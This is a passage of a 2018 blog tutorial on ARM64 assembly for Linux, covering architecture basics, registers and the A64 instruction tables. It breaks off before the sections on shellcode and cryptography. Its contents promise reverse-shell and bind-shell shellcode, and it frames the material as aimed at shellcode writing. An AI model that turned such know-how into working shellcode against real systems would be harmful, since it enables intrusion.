





## [A Guide to ARM64 / AArch64 Assembly on Linux with Shellcodes and Cryptography](https://modexp.wordpress.com/2018/10/30/arm64-assembly/)

Posted on [October 30, 2018](https://modexp.wordpress.com/2018/10/30/arm64-assembly/)by [odzhan](https://modexp.wordpress.com/author/odzhan/)

## Introduction

The [Cortex-A76](https://community.arm.com/processors/b/blog/posts/cortex-a76-laptop-class-performance-with-mobile-efficiency) codenamed “Enyo” will be the first of three CPU cores from ARM designed to target the laptop market between 2018-2020. ARM already has a monopoly on handheld devices, and are now projected to take a share of the laptop and server market. First, [Apple announced in April 2018](https://www.bloomberg.com/news/articles/2018-04-02/apple-is-said-to-plan-move-from-intel-to-own-mac-chips-from-2020) its intention to replace Intel with ARM for their Macbook CPU from 2020 onwards. Second, a company called [Ampere started shipping a 64-bit ARM CPU for servers](https://www.theregister.co.uk/2018/09/18/ampere_shipping/) in September 2018 that’s intended to compete with Intel’s XEON CPU. Moreover, the Automotive Enhanced (AE) version of the A76 [unveiled in the same month](https://community.arm.com/iot/embedded/b/embedded-blog/posts/announcing-the-arm-cortex-a76ae) will target applications like self-driving cars. The A76 will continue to support A32 and T32 instruction sets, but only for unprivileged code. Privileged code (kernel, drivers, hyper-visor) will only run in 64-bit mode. It’s clear that ARM intends to phase out support for 32-bit code with its A series. Developers of Linux distros have also decided to [drop support for all 32-bit architectures](https://www.theregister.co.uk/2016/07/05/linux_letting_go_32bit_builds_on_the_way_out/), including ARM.


This post is an introduction to ARM64 assembly and will not cover any advanced topics. It will be updated periodically as I learn more, and if you have suggestions on how to improve the content, or you believe something needs correcting, feel free to [email me.](https://modexp.wordpress.com/about/)

If you just want the code shown in this post, [look here.](https://github.com/odzhan/shellcode/tree/master/os/linux/arm64)

Please refer to the [ARM Architecture Reference Manual ARMv8, for ARMv8-A architecture profile](https://developer.arm.com/docs/ddi0487/latest/arm-architecture-reference-manual-armv8-for-armv8-a-architecture-profile) for more comprehensive information about the ARMv8-A architecture. Everything I discuss with exception to the source code and GNU topics can be found in the manual.

## Table of contents

1. ARM Architecture
   1. [Profiles](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#profiles)
   2. [Operating Systems](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#os)
   3. [Registers](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#registers)
   4. [Calling Convention](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#conventions)
   5. [Condition Codes](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#ccodes)
   6. [Data Types](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#datatypes)
   7. [Data Alignment](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#alignment)
2. A64 instruction set
   1. [Arithmetic](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#arithmetic)
   2. [Logical and Move](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#logicmove)
   3. [Load, Store and Addressing Modes](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#loadstore)
   4. [Conditional](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#conditional)
   5. [Bit Manipulation](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#bitmanip)
   6. [Branch](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#branch)
   7. [System](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#system)
   8. [x86 and A64 comparison](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#x86table)
3. GNU Assembler
   1. [GCC assembly](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#gccasm)
   2. [Comments](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#comments)
   3. [Preprocessor Directives](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#directives)
   4. [Symbolic Constants](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#symcon)
   5. [Structures and Unions](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#structures)
   6. [Operators](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#operators)
   7. [Macros](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#macros)
   8. [Conditional assembly](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#casm)
4. GNU Debugger
   1. [Layout](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#gdblayout)
   2. [Commands](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#gdbcommands)
5. Common operations
   1. [Saving registers.](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#savereg)
   2. [Copying registers.](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#copyreg)
   3. [Initialize register to zero.](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#zeroinit)
   4. [Initialize register to one.](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#oneinit)
   5. [Initialize register to -1.](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#minusinit)
   6. [Test register for FALSE or 0.](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#falsetest)
   7. [Test register for TRUE or 1.](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#truetest)
   8. [Test register for -1.](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#minustest)
6. Linux Shellcode
   1. [System Calls](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#syscalls)
   2. [Tracing](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#tracing)
   3. [Execute /bin/sh](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#execve)
   4. [Execute /bin/sh -c](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#execvecmd)
   5. [Reverse connect /bin/sh](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#reverse)
   6. [Bind /bin/sh to port](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#bind)
   7. [Synchronized shell](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#sync)
7. Encryption
   1. [AES-128](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#aes)
   2. [KECCAK](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#keccak)
   3. [GIMLI](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#gimli)
   4. [XOODOO](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#xoodoo)
   5. [ASCON](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#ascon)
   6. [SPECK](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#speck)
   7. [SIMECK](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#simeck)
   8. [CHASKEY](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#chaskey)
   9. [XTEA](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#xtea)
   10. [NOEKEON](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#noekeon)
   11. [CHAM](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#cham)
   12. [LEA](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#lea)
   13. [CHACHA](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#chacha)
   14. [PRESENT](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#present)
   15. [LIGHTMAC](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#lightmac)
8. [Summary](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#summary)

## 1. ARM Architecture

ARM is a family of Reduced Instruction Set Computer (RISC) architectures for computer processors that has become the predominant CPU for smartphones, tablets, and most of the IoT devices being sold today. It is not just consumer electronics that use ARM. The CPU can be found in medical devices, cars, aeroplanes, robots..it can be found in billions of devices. The popularity of ARM is due in part to the reduced cost of production and power-efficiency. ARM Holdings Inc. is a fabless semiconductor company, which means they do not manufacture hardware. The company designs processor cores and license their technology as Intellectual Property (IP) to other semiconductor companies like ATMEL, NXP, and Samsung.

In this tutorial, I’ll be programming on *“orca”*, a Raspberry Pi (RPI) 3 running [64-bit Debian Linux](https://wiki.debian.org/RaspberryPi3). This RPI comes with a Cortex-A53. It’s an ARMv8-A 64-bit core that has backward compatibility with ARMv7-A so that it can run the A32 and T32 instruction sets. Here’s a screenshot of output from `lscpu`.



There are currently two execution states you should be aware of.

- **AArch32**

  32-bit, with support for the T32 (Thumb) and A32 (ARM) instruction sets.

- **AArch64**

  64-bit, with support for the A64 instruction set.

This post only focuses on the A64 instruction set.

### 1.1 Profiles

There are three available, each one designed for a specific purpose. If you want to write shellcode, it’s safe to assume you’ll work primarily with the A series because it’s the only profile that supports a General Purpose Operating System (GPOS) such as Linux or Windows. A Real-Time Operating System (RTOS) is more likely to be found running on the R and M series.

| Core | Profile         | Application                                                  |
| :--- | :-------------- | :----------------------------------------------------------- |
| A    | Application     | Supports a Virtual Memory System Architecture (VMSA) based on a Memory Management Unit (MMU). Found in high performance devices that run an operating system such as Windows, Linux, Android or iOS. |
| R    | Real-time       | Found in medical devices, PLC, ECU, avionics, robotics. Where low latency and a high level of safety is required. For example, an electronic braking system in an automobile. Autonomous drones and Hunter Killers (HK). |
| M    | Microcontroller | Supports a Protected Memory System Architecture (PMSA) based on a MMU. Found in ASICs, ASSPs, FPGAs, and SoCs for power management, I/O, touch screen, smart battery, and sensor controllers. Some drones use the M series. HK Aerial. |

The vast majority of single-board computers run on the Cortex-A series because it has an MMU for translating virtual memory addresses to physical memory addresses required by most operating systems.

### 1.2 Operating Systems

An RTOS is time-critical whereas a GPOS isn’t. While I do not discuss writing code for an RTOS here, it’s important to know the difference because you’re not going to find Linux running on every ARM based device. Linux requires far too many resources to be suitable for a device with only 256KB of RAM. Certainly, Linux has a lot of support for peripheral devices, file-systems, dynamic loading of code, network connectivity, and user-interface support; all of this makes it ideal for internet connected handheld devices. However, you’re unlikely to find the same support in an RTOS because it is not a full OS in the sense that Linux is. An RTOS might only consist of a static library with support for task scheduling, Interprocess Communication (IPC), and synchronization.

Some RTOS such as QNX or VxWorks can be configured to support features normally found in a GPOS and it’s possible you will come across at least one of these in any vulnerability research. The following is a list of embedded operating systems you may wish to consider researching more about.

#### **Open source**

- [mbed OS](http://os.mbed.com/)
- [Zephyr OS](https://www.zephyrproject.org/)
- [RIOT OS](https://riot-os.org/)
- [Contiki-NG](http://contiki-ng.org/)
- [Contiki OS](http://www.contiki-os.org/)
- [BeRTOS](http://www.bertos.org/)
- [ChibiOS](http://www.chibios.org/dokuwiki/doku.php?id=start)
- [Free RTOS](http://www.freertos.org/)
- [Micrium uC/OS-II](http://www.micrium.com/)
- [eCos](http://ecos.sourceware.org/hardware.html)
- [NuttX](http://www.nuttx.org/)

#### **Proprietary**

- [QNX](https://blackberry.qnx.com/en)
- [vxWorks](https://www.windriver.com/products/vxworks/)

### 1.3 Registers

This post will only focus on using the general-purpose, zero and stack pointer registers, but not SIMD, floating point and vector registers. Most system calls only use general-purpose registers.

| Name | Size    | Description                    |
| :--- | :------ | :----------------------------- |
| Wn   | 32-bits | General purpose registers 0-31 |
| Xn   | 64-bits | General purpose registers 0-31 |
| WZR  | 32-bits | Zero register                  |
| XZR  | 64-bits | Zero register                  |
| SP   | 64-bits | Stack pointer                  |

W denotes 32-bit registers while X denotes 64-bit registers.

### 1.4 Calling convention

The following is applicable to Debian Linux. You may freely use x0-x18, but remember that if calling subroutines, they may use them as well.

| Registers | Description                |
| :-------- | :------------------------- |
| X0 – X7   | arguments and return value |
| X8 – X18  | temporary registers        |
| X19 – X28 | callee-saved registers     |
| X29       | frame pointer              |
| X30       | link register              |
| SP        | stack pointer              |

x0 – x7 are used to pass parameters and return values. The value of these registers may be freely modified by the called function (the callee) so the caller cannot assume anything about their content, even if they are not used in the parameter passing or for the returned value. This means that these registers are in practice caller-saved.

x8 – x18 are temporary registers for every function. No assumption can be made on their values upon returning from a function. In practice these registers are also caller-saved.

x19 – x28 are registers, that, if used by a function, must have their values preserved and later restored upon returning to the caller. These registers are known as callee-saved.

x29 can be used as a frame pointer and x30 is the link register. The callee should save x30if it intends to call a subroutine.

### 1.5 Condition Flags

ARM has a “process state” with condition flags that affect the behaviour of some instructions. Branch instructions can be used to change the flow of execution. Some of the data processing instructions allow setting the condition flags with the S suffix. e.g ANDS or ADDS. The flags are the Zero Flag (Z), the Carry Flag (C), the Negative Flag (N) and the is Overflow Flag (V).

| Flag | Description                                                  |
| :--- | :----------------------------------------------------------- |
| N    | Bit 31. Set if the result of an operation is negative. Cleared if the result is positive or zero. |
| Z    | Bit 30. Set if the result of an operation is zero/equal. Cleared if non-zero/not equal. |
| C    | Bit 29. Set if an instruction results in a carry or overflow. Cleared if no carry. |
| V    | Bit 28. Set if an instruction results in an overflow. Cleared if no overflow. |

### 1.6 Condition Codes

The A32 instruction set supports conditional execution for most of its operations. To improve performance, ARM removed support with A64. These conditional codes are now only effective with branch, select and compare instructions. This appears to be a disadvantage, but there are sufficient alternatives in the A64 set that are a distinct improvement.

| Mnemonic | Description                   | Condition flags           |
| :------- | :---------------------------- | :------------------------ |
| EQ       | Equal                         | Z set                     |
| NE       | Not Equal                     | Z clear                   |
| CS or HS | Carry Set                     | C set                     |
| CC or LO | Carry Clear                   | C clear                   |
| MI       | Minus                         | N set                     |
| PL       | Plus, positive or zero        | N clear                   |
| VS       | Overflow                      | V set                     |
| VC       | No overflow                   | V clear                   |
| HI       | Unsigned Higher than or equal | C set and Z clear         |
| LS       | Unsigned Less than or equal   | C clear or Z set          |
| GE       | Signed Greater than or Equal  | N and V the same          |
| LT       | Signed Less than              | N and V differ            |
| GT       | Signed Greater than           | Z clear, N and V the same |
| LE       | Signed Less than or Equal     | Z set, N and V differ     |
| AL       | Always. Normally omitted.     | Any                       |

### 1.7 Data Types

A “word” on x86 is 16-bits and a “doubleword” is 32-bits. A “word” for ARM is 32-bits and a “doubleword” is 64-bits.

| Type       | Size     |
| :--------- | :------- |
| Byte       | 8 bits   |
| Half-word  | 16 bits  |
| Word       | 32 bits  |
| Doubleword | 64 bits  |
| Quadword   | 128 bits |

### 1.8 Data Alignment

The alignment of sp must be two times the size of a pointer. For AArch32 that’s 8 bytes, and for AArch64 it’s 16 bytes.

## 2. A64 Instruction Set

Like all previous ARM architectures, ARMv8-A is a load/store architecture. Data processing instructions do not operate directly on data in memory as we find with the x86 architecture. The data is first loaded into registers, modified, and then stored back in memory or simply discarded once it’s no longer required. Most data processing instructions use one destination register and two source operands. The general format can be considered as the instruction, followed by the operands, as follows:

```
Instruction Rd, Rn, Operand2
```

Rd is the destination register. Rn is the register that is operated on. The use of R indicates that the registers can be either X or W registers. Operand2 might be a register, a modified register, or an immediate value.

### 2.1 Arithmetic

The following instructions can be used for arithmetic, stack allocation and addressing of memory, control flow, and initialization of registers or variables.

| Menmonic                   | Operands                       | Instruction                                                  |
| :------------------------- | :----------------------------- | :----------------------------------------------------------- |
| ADD{S} (immediate)         | Rd, Rn, #imm{, shift}          | Add (immediate) adds a register value and an optionally-shifted immediate value, and writes the result to the destination register. |
| ADD{S} (extended register) | Rd, Rn, Wm{, extend {#amount}} | Add (extended register) adds a register value and a sign or zero-extended register value, followed by an optional left shift amount, and writes the result to the destination register. The argument that is extended from the Rm register can be a byte, halfword, word, or doubleword. |
| ADD{S} (shifted register)  | Rd, Rn, Rm{, shift #amount}    | Add (shifted register) adds a register value and an optionally-shifted register value, and writes the result to the destination register. |
| ADR                        | Xd, rel                        | Form PC-relative address adds an immediate value to the PC value to form a PC-relative address, and writes the result to the destination register. |
| ADRP                       | Xd, rel                        | Form PC-relative address to 4KB page adds an immediate value that is shifted left by 12 bits, to the PC value to form a PC-relative address, with the bottom 12 bits masked out, and writes the result to the destination register. |
| CMN (extended register)    | Rn, Rm{, extend {#amount}}     | Compare Negative (extended register) adds a register value and a sign or zero-extended register value, followed by an optional left shift amount. The argument that is extended from the Rm register can be a byte, halfword, word, or doubleword. It updates the condition flags based on the result, and discards the result. |
| CMN (immediate)            | Rn, #imm{, shift}              | Compare Negative (immediate) adds a register value and an optionally-shifted immediate value. It updates the condition flags based on the result, and discards the result. |
| CMN (shifted register)     | Rn, Rm{, shift #amount}        | Compare Negative (extended register) adds a register value and a sign or zero-extended register value, followed by an optional left shift amount. The argument that is extended from the Rm register can be a byte, halfword, word, or doubleword. It updates the condition flags based on the result, and discards the result. |
| CMP (extended register)    | Rn, Rm{, extend {#amount}}     | Compare (extended register) subtracts a sign or zero-extended register value, followed by an optional left shift amount, from a register value. The argument that is extended from the Rm register can be a byte, halfword, word, or doubleword. It updates the condition flags based on the result, and discards the result. |
| CMP (immediate)            | Rn, #imm{, shift}              | Compare (immediate) subtracts an optionally-shifted immediate value from a register value. It updates the condition flags based on the result, and discards the result. |
| CMP (shifted register)     | Rn, Rm{, shift #amount}        | Compare (shifted register) subtracts an optionally-shifted register value from a register value. It updates the condition flags based on the result, and discards the result. |
| MADD                       | Rd, Rn, Rm, ra                 | Multiply-Add multiplies two register values, adds a third register value, and writes the result to the destination register. |
| MNEG                       | Rd, Rn, Rm                     | Multiply-Negate multiplies two register values, negates the product, and writes the result to the destination register. Alias of MSUB. |
| MSUB                       | Rd, Rn, Rm, ra                 | Multiply-Subtract multiplies two register values, subtracts the product from a third register value, and writes the result to the destination register. |
| MUL                        | Rd, Rn, Rm                     | Multiply. Alias of MADD.                                     |
| NEG{S}                     | Rd, op2                        | Negate (shifted register) negates an optionally-shifted register value, and writes the result to the destination register. |
| NGC{S}                     | Rd, Rm                         | Negate with Carry negates the sum of a register value and the value of NOT (Carry flag), and writes the result to the destination register. |
| SBC{S}                     | Rd, Rn, Rm                     | Subtract with Carry subtracts a register value and the value of NOT (Carry flag) from a register value, and writes the result to the destination register. |
| {U\|S}DIV                  | Rd, Rn, Rm                     | Unsigned/Signed Divide divides a signed integer register value by another signed integer register value, and writes the result to the destination register. The condition flags are not affected. |
| {U\|S}MADDL                | Xd, Wn, Wm, Xa                 | Unsigned/Signed Multiply-Add Long multiplies two 32-bit register values, adds a 64-bit register value, and writes the result to the 64-bit destination register. |
| {U\|S}MNEGL                | Xd, Wn, Wm                     | Unsigned/Signed Multiply-Negate Long multiplies two 32-bit register values, negates the product, and writes the result to the 64-bit destination register. |
| {U\|S}MSUBL                | Xd, Wn, Wm, Xa                 | Unsigned/Signed Multiply-Subtract Long multiplies two 32-bit register values, subtracts the product from a 64-bit register value, and writes the result to the 64-bit destination register. |
| {U\|S}MULH                 | Xd, Xn, Xm                     | Unsigned/Signed Multiply High multiplies two 64-bit register values, and writes bits[127:64] of the 128-bit result to the 64-bit destination register. |
| {U\|S}MULL                 | Xd, Wn, Wm                     | Unsigned/Signed Multiply Long multiplies two 32-bit register values, and writes the result to the 64-bit destination register. |
| SUB{S} (extended register) | Rd, Rn, Rm{, shift #amount}    | Subtract (extended register) subtracts a sign or zero-extended register value, followed by an optional left shift amount, from a register value, and writes the result to the destination register. The argument that is extended from the Rm register can be a byte, halfword, word, or doubleword. |
| SUB{S} (immediate)         | Rd, Rn, Rm{, shift #amount}    | Subtract (immediate) subtracts an optionally-shifted immediate value from a register value, and writes the result to the destination register. |
| SUB{S} (shift register)    | Rd, Rn, Rm{, shift #amount}    | Subtract (shifted register) subtracts an optionally-shifted register value from a register value, and writes the result to the destination register. |

```assembly
  // x0 == -1?
  cmn     x0, 1
  beq     minus_one

  // x0 == 0
  cmp     x0, 0
  beq     zero

  // allocate 32 bytes of stack
  sub     sp, sp, 32

  // x0 = x0 % 37
  mov     x1, 37
  udiv    x2, x0, x1
  msub    x0, x2, x1, x0

  // x0 = 0
  sub     x0, x0, x0
```

### 2.2 Logical and Move

Mainly used for bit testing and manipulation. To a large degree, cryptographic algorithms use these operations exclusively to be efficient in both hardware and software. Implementing bitwise operations in hardware is relatively cheap.

| Mnemonic                  | Operands                    | Instruction                                                  |
| :------------------------ | :-------------------------- | :----------------------------------------------------------- |
| AND{S} (immediate)        | Rd, Rn, #imm                | Bitwise AND (immediate) performs a bitwise AND of a register value and an immediate value, and writes the result to the destination register. |
| AND{S} (shifted register) | Rd, Rn, Rm, {shift #amount} | Bitwise AND (shifted register) performs a bitwise AND of a register value and an optionally-shifted register value, and writes the result to the destination register. |
| ASR (register)            | Rd, Rn, Rm                  | Arithmetic Shift Right (register) shifts a register value right by a variable number of bits, shifting in copies of its sign bit, and writes the result to the destination register. The remainder obtained by dividing the second source register by the data size defines the number of bits by which the first source register is right-shifted. |
| ASR (immediate)           | Rd, Rn, #imm                | Arithmetic Shift Right (immediate) shifts a register value right by an immediate number of bits, shifting in copies of the sign bit in the upper bits and zeros in the lower bits, and writes the result to the destination register. |
| BIC{S}                    | Rd, Rn, Rm                  | Bitwise Bit Clear (shifted register) performs a bitwise AND of a register value and the complement of an optionally-shifted register value, and writes the result to the destination register. |
| EON                       | Rd, Rn, Rm {, shift amount} | Bitwise Exclusive OR NOT (shifted register) performs a bitwise Exclusive OR NOT of a register value and an optionally-shifted register value, and writes the result to the destination register. |
| EOR                       | Rd, Rn, #imm                | Bitwise Exclusive OR (immediate) performs a bitwise Exclusive OR of a register value and an immediate value, and writes the result to the destination register. |
| EOR                       | Rd, Rn, Rm                  | Bitwise Exclusive OR (shifted register) performs a bitwise Exclusive OR of a register value and an optionally-shifted register value, and writes the result to the destination register. |
| LSL (register)            | Rd, Rn, Rm                  | Logical Shift Left (register) shifts a register value left by a variable number of bits, shifting in zeros, and writes the result to the destination register. The remainder obtained by dividing the second source register by the data size defines the number of bits by which the first source register is left-shifted. Alias of LSLV. |
| LSL (immediate)           | Rd, Rn, #imm                | Logical Shift Left (immediate) shifts a register value left by an immediate number of bits, shifting in zeros, and writes the result to the destination register. Alias of UBFM. |
| LSR (register)            | Rd, Rn, Rm                  | Logical Shift Right (register) shifts a register value right by a variable number of bits, shifting in zeros, and writes the result to the destination register. The remainder obtained by dividing the second source register by the data size defines the number of bits by which the first source register is right-shifted. |
| LSR                       | Rd, Rn, #imm                | Logical Shift Right (immediate) shifts a register value right by an immediate number of bits, shifting in zeros, and writes the result to the destination register. |
| MOV (register)            | Rd, Rn                      | Move (register) copies the value in a source register to the destination register. Alias of ORR. |
| MOV (immediate)           | Rd, #imm                    | Move (wide immediate) moves a 16-bit immediate value to a register. Alias of MOVZ. |
| MOVK                      | Rd, #imm{, shift #amount}   | Move wide with keep moves an optionally-shifted 16-bit immediate value into a register, keeping other bits unchanged. |
| MOVN                      | Rd, #imm{, shift #amount}   | Move wide with NOT moves the inverse of an optionally-shifted 16-bit immediate value to a register. |
| MOVZ                      | Rd, #imm                    | Move wide with zero moves an optionally-shifted 16-bit immediate value to a register. |
| MVN                       | Rd, Rm{, shift #amount}     | Bitwise NOT writes the bitwise inverse of a register value to the destination register. Alias of ORN. |
| ORN                       | Rd, Rn, Rm{, shift #amount} | Bitwise OR NOT (shifted register) performs a bitwise (inclusive) OR of a register value and the complement of an optionally-shifted register value, and writes the result to the destination register. |
| ORR                       | Rd, Rn, #imm                | Bitwise OR (immediate) performs a bitwise (inclusive) OR of a register value and an immediate register value, and writes the result to the destination register. |
| ORR                       | Rd, Rn, Rm{, shift #amount} | Bitwise OR (shifted register) performs a bitwise (inclusive) OR of a register value and an optionally-shifted register value, and writes the result to the destination register. |
| ROR                       | Rd, Rs, #shift              | Rotate right (immediate) provides the value of the contents of a register rotated by a variable number of bits. The bits that are rotated off the right end are inserted into the vacated bit positions on the left. Alias of EXTR. |
| ROR                       | Rd, Rn, Rm                  | Rotate Right (register) provides the value of the contents of a register rotated by a variable number of bits. The bits that are rotated off the right end are inserted into the vacated bit positions on the left. The remainder obtained by dividing the second source register by the data size defines the number of bits by which the first source register is right-shifted. Alias of RORV. |
| TST                       | Rn, #imm                    | Test bits (immediate), setting the condition flags and discarding the result. Alias of ANDS. |
| TST                       | Rn, Rm{, shift #amount}     | Test (shifted register) performs a bitwise AND operation on a register value and an optionally-shifted register value. It updates the condition flags based on the result, and discards the result. Alias of ANDS. |

Multiplication can be performed using logical shift left LSL. Division can be performed using logical shift right LSR. Modulo operations can be performed using bitwise AND. The only condition is that the multiplier and divisor be a power of two. The first three examples shown here demonstrate those operations.

```assembly
  // x1 = x0 / 8
  lsr     x1, x0, 3

  // x1 = x0 * 4
  lsl     x1, x0, 2

  // x1 = x0 % 16
  and     x1, x0, 15

  // x0 == 0?
  tst     x0, x0
  beq     zero

  // x0 = 0
  eor     x0, x0, x0
```

### 2.3 Load, Store and Addressing Modes

The following are the main instructions used for loading and storing data. There are others of course, designed for privileged/unprivileged loads, unscaled/unaligned loads, atomicity, and exclusive registers. However, as a beginner these are the only ones you need to worry about for now.

| Mnemonic               | Operands                                  | Instruction                                                  |
| :--------------------- | :---------------------------------------- | :----------------------------------------------------------- |
| LDR (B\|H\|SB\|SH\|SW) | Wt, [Xn\|SP], #simm                       | Load Register (immediate) loads a word or doubleword from memory and writes it to a register. The address that is used for the load is calculated from a base register and an immediate offset. |
| LDR (B\|H\|SB\|SH\|SW) | Wt, [Xn\|SP, (Wm\|Xm){, extend {amount}}] | Load Register (register) calculates an address from a base register value and an offset register value, loads a byte/half-word/word from memory, and writes it to a register. The offset register value can optionally be shifted and extended. |
| STR (B\|H\|SB\|SH\|SW) | Wt, [Xn\|SP], #simm                       | Store Register (immediate) stores a word or a doubleword from a register to memory. The address that is used for the store is calculated from a base register and an immediate offset. |
| STR (B\|H\|SB\|SH\|SW) | Wt, [Xn\|SP, (Wm\|Xm){, extend {amount}}] | Store Register (immediate) stores a word or a doubleword from a register to memory. The address that is used for the store is calculated from a base register and an immediate offset. |
| LDP                    | Wt1, Wt2, [Xn\|SP], #imm                  | Load Pair of Registers calculates an address from a base register value and an immediate offset, loads two 32-bit words or two 64-bit doublewords from memory, and writes them to two registers. |
| STP                    | Wt1, Wt2, [Xn\|SP], #imm                  | Store Pair of Registers calculates an address from a base register value and an immediate offset, and stores two 32-bit words or two 64-bit doublewords to the calculated address, from two registers |

```assembly
  // load a byte from x1
  ldrb    w0, [x1]

  // load a signed byte from x1
  ldrsb   w0, [x1]

  // store a 32-bit word to address in x1
  str     w0, [x1]

  // load two 32-bit words from stack, advance sp by 8
  ldp     w0, w1, [sp], 8

  // store two 64-bit words at [sp-96] and subtract 96 from sp 
  stp     x0, x1, [sp, -96]!

  // load 32-bit immediate from literal pool
  ldr     w0, =0x12345678
```

| Addressing Mode                | Immediate     | Register              | Extended Register            |
| :----------------------------- | :------------ | :-------------------- | :--------------------------- |
| Base register only (no offset) | [base{, 0}]   |                       |                              |
| Base plus offset               | [base{, imm}] | [base, Xm{, LSL imm}] | [base, Wm, (S\|U)XTW {#imm}] |
| Pre-indexed                    | [base, imm]!  |                       |                              |
| Post-indexed                   | [base], imm   | [base], Xm a          |                              |
| Literal (PC-relative)          | label         |                       |                              |

### Base register only

```assembly
  // load a byte from x1
  ldrb   w0, [x1]

  // load a half-word from x1
  ldrh   w0, [x1]

  // load a word from x1
  ldr    w0, [x1]

